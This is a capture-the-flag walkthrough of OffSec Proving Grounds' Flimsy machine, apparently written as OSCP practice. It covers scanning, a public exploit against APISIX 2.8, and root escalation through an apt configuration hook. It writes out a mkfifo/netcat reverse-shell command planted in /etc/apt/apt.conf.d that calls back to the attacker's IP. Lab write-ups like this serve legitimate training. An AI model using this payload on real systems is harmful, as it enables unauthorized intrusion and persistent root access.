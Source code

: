 ```yaml
---
title: Flimsy from Proving Grounds
description: This is a walkthrough of the flimsy machine that can be found in
  offsec's Proving Grounds.  This machine is generally used for training for
  pentest certification exams, such as offsec's OSCP
author: CyberOperator
date: 2024-07-23T20:40:53.707Z
tags:
  - Exploitable
---
```

# Walk-through of Flimsy

Note: This walkthrough assumes that you are using a Kali Linux (or a comparable machine with the enumerated tools included) and have access to Flimsy's IP address (via local network or VPN).  This machine is considered as "easy" and is a good way to practice exploitation techniques.

![](/static/img/screenshot-2024-07-23-at-4.49.06 pm.png "Flimsy's IP address")

As usual the first step is to scan the machine.  We'll use nmap:

## 1. NMAP scan:

We'll do a quick scan first to see which ports are open and a more involved scan that includes version scan as well as initial vulnerability detection:

Quick Scan:

![](/static/img/screenshot-2024-07-23-at-4.53.38 pm.png)

Shows some open ports which may give you an idea of what to look for.  Here we can see right away that there is a web server, mysql, etc.  This may be useful.  Let's visit the site on the browser to see if there is anything interesting.

We see a web app that also includes a user input field, this may be interesting ...

![](/static/img/screenshot-2024-07-23-at-4.58.19 pm.png)

Now we can go back and take a look at the full nmap scan:

![](/static/img/screenshot-2024-07-23-at-5.10.02 pm.png)

![](/static/img/screenshot-2024-07-23-at-5.11.15 pm.png)

## 2. Exploit

We can see a couple of interesting potential vulnerabilities and attack vectors.  You can play around searching for various exploits, but for our purposes, let's focus on the open portn number 43500 (APISIX 2.8).  We can start by searching for an exploit:

![](/static/img/screenshot-2024-07-23-at-5.14.28 pm.png)

There it is, let's stay on searchsploit and download the exploit code to our local machine:

![](/static/img/screenshot-2024-07-23-at-5.16.01 pm.png)

Now let's run the exploit (if you have questions about how to format the exploit, whether you need to change any parts of the exploit code and the parameters, simply go to the Exploit-DB web site and review it there).  Sometimes you can just try to do a first pass at the exploit and get what you need such as here, where the exploit gives us usage instructions:

![](/static/img/screenshot-2024-07-23-at-5.20.00 pm.png)

Now we start a listener on our Kali attack machine and enter the correct parameters:

![](/static/img/screenshot-2024-07-23-at-5.23.49 pm.png)

And we get a connection to our kali listener:

![](/static/img/screenshot-2024-07-23-at-5.28.49 pm.png)

We are now in the user *franklin* account

![](/static/img/screenshot-2024-07-23-at-5.30.13 pm.png)

This is not the most intuitive (or useful) shell, so let's use

`python3 -c 'import pty; pty.spawn("/bin/bash")' `

to get a better shell:

![](/static/img/screenshot-2024-07-23-at-5.36.35 pm.png)

This is not a privileged account, so time to escalate privileges.

## 3. Privilege Escalation

From our scan, we know that this is a Linux machine so why not see if we can tie into a privileged cron job, first let's see what we have:



![](/static/img/screenshot-2024-07-23-at-5.38.58 pm.png)

Looks very promising, can we send a reverse shell now?  Let's start by opening another listener that we can send our privilege request to connect to:

![](/static/img/screenshot-2024-07-23-at-5.42.58 pm.png)

And send in our reverse shell "request" to the update cron!

First, we move to the correct directory:

`cd /etc/apt/apt.conf.d/`

Then we send our shell request to our kali machine:

`echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.54 2222 >/tmp/f"};' > shell`

When we go back to our listener on the Kali machine, we got a connection! 

![](/static/img/screenshot-2024-07-23-at-5.56.29 pm.png)

## 4. Get The Flag!

And we are set with the root flag!

![](/static/img/screenshot-2024-07-23-at-5.58.01 pm.png)

I hope you found this walkthrough helpful.  Now go back and do it yourself without looking at this to verify that you learned!